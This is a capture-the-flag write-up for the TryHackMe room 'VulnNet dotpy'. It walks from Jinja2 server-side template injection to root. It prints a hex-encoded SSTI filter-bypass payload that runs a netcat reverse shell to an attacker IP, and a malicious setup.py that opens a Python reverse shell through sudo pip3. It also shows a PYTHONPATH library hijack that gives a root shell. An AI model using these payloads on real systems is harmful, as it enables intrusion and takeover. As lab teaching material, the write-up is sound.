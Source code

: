 # 70 - VulnNet dotpy (SSTI / SSTI Bypass)

Room Link --> [https://tryhackme.com/room/vulnnetdotpy](https://tryhackme.com/room/vulnnetdotpy)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```
gobuster dir -u http://10.10.82.145:8080/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error -b 403

/login
/register
/logout
```
{% endcode %}

We registered a new user and login.

I noticed whenever i enter a non existent page it gets injected into the page.

### SSTI exploitation

[http://10.10.82.145:8080/robots](http://10.10.82.145:8080/robots.txt)

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And some characters are blackliisted.

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can start testing for SSTI (Server Side Template Injection) by going to [payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#templates-injections) since we know the backend is using Python the guess here will be the Template in use here is Jinja2

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This worked:

```bash
{{7*'7'}} would result in 7777777

# go to:
http://10.10.82.145:8080/{{7*'7'}}
```

<figure><img src=".gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

SSTI Resource --> [https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

But there are some blacklisted characters we need to find them. We can just cause the program to error out.

Since this is executing python code i just added "print" in the payload.

`http://10.10.82.145:8080/{{print(7*'7')}}`

<figure><img src=".gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We confirmed the Template Language `jinja2.exceptions.UndefinedError` .

Then i clicked the 1st error:

<figure><img src=".gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can see the blacklisted characters.

<figure><img src=".gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
# blacklisted characters.
. _ [ ]
```

### Bypassing Filters

We use this resource that uses [Python Literal Hex Encoding](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) for bypassing those filters.

<figure><img src=".gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### payload used

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong># we enter our hex encoded payload in the 'PAYLOAD' field.
</strong><strong>/{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('PAYLOAD')|attr('read')()}}
</strong></code></pre>

We use cyberchef to hex encode our payload:

{% code overflow="wrap" %}
```bash
# payload
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.88.214 9002 >/tmp/f

# hex encoded.
\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x63\x61\x74\x20\x2f\x74\x6d\x70\x2f\x66\x7c\x2f\x62\x69\x6e\x2f\x73\x68\x20\x2d\x69\x20\x32\x3e\x26\x31\x7c\x6e\x63\x20\x31\x30\x2e\x31\x38\x2e\x38\x38\x2e\x32\x31\x34\x20\x39\x30\x30\x32\x20\x3e\x2f\x74\x6d\x70\x2f\x66
```
{% endcode %}

<figure><img src=".gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

#### Final Payload

{% code overflow="wrap" %}
```bash
/{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x63\x61\x74\x20\x2f\x74\x6d\x70\x2f\x66\x7c\x2f\x62\x69\x6e\x2f\x73\x68\x20\x2d\x69\x20\x32\x3e\x26\x31\x7c\x6e\x63\x20\x31\x30\x2e\x31\x38\x2e\x38\x38\x2e\x32\x31\x34\x20\x39\x30\x30\x32\x20\x3e\x2f\x74\x6d\x70\x2f\x66')|attr('read')()}}
```
{% endcode %}

Setup NC listener, then we copy this payload and use Bursuite repeater to send this request.

<figure><img src=".gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

And i got shell on NC listener:

<figure><img src=".gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to system-adm user

`sudo -l` and we can execute `/usr/bin/pip3 install *` as system-adm

So we check gtfobin for exploitation:

{% code overflow="wrap" lineNumbers="true" %}
```bash
# make a dir/
mkdir dking && cd dking

# create a .py file that executes a rev shell.
echo 'import os,pty,socket;s=socket.socket();s.connect(("10.18.88.214",7777));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")' >  setup.py

# setup nc listener
nc -nvlp 7777

# execute it.
sudo -u system-adm /usr/bin/pip3 install .
```
{% endcode %}

We got shell.

<figure><img src=".gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to root

`sudo -l` and we can execute `/usr/bin/python3 /opt/backup.py` as root.

```bash
User system-adm may run the following commands on vulnnet-dotpy:
    (ALL) SETENV: NOPASSWD: /usr/bin/python3 /opt/backup.py
```

```bash
# content of the file.
system-adm@vulnnet-dotpy:/opt$ cat backup.py 
from datetime import datetime
from pathlib import Path
import zipfile
```

We can see the file is calling the `zipfile` library and since we have `SETENV` priv we can set a fake PATHONPATH env variable with a malicious .py file.

```bash
# the malicious library.
echo 'import pty; pty.spawn("/bin/bash")' > /tmp/zipfile.py

# executing it.
sudo -u root PYTHONPATH=/tmp /usr/bin/python3 /opt/backup.py
```

And we got root.

<figure><img src=".gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

Done!

